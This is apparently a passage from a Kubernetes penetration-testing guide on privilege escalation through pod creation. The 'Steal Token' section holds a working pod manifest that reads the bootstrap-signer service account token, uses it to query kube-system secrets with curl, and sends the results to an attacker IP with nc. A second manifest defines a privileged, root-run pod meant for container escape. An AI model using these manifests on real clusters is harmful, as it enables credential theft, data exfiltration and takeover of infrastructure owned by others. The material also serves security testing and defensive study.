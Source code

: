 ### Pod Create - Steal Token

An atacker with the permissions to create a pod, could attach a privileged Service Account into the pod and steal the token to impersonate the Service Account. Effectively escalating privileges to it

Example of a pod that will steal the token of the `bootstrap-signer` service account and send it to the attacker:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
    - name: alpine
      image: alpine
      command: ["/bin/sh"]
      args:
        [
          "-c",
          'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000',
        ]
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

### Pod Create & Escape

The following indicates all the privileges a container can have:

- **Privileged access** (disabling protections and setting capabilities)
- **Disable namespaces hostIPC and hostPid** that can help to escalate privileges
- **Disable hostNetwork** namespace, giving access to steal nodes cloud privileges and better access to networks
- **Mount hosts / inside the container**

```yaml:super_privs.yaml
apiVersion: v1
kind: Pod
metadata:
  name: ubuntu
  labels:
    app: ubuntu
spec:
  # Uncomment and specify a specific node you want to debug
  # nodeName: <insert-node-name-here>
  containers:
    - image: ubuntu
      command:
        - "sleep"
        - "3600" # adjust this as needed -- use only as long as you need
      imagePullPolicy: IfNotPresent
      name: ubuntu
      securityContext:
        allowPrivilegeEscalation: true
        privileged: true
        #capabilities:
        #  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
        runAsUser: 0 # run as root (or any other user)
```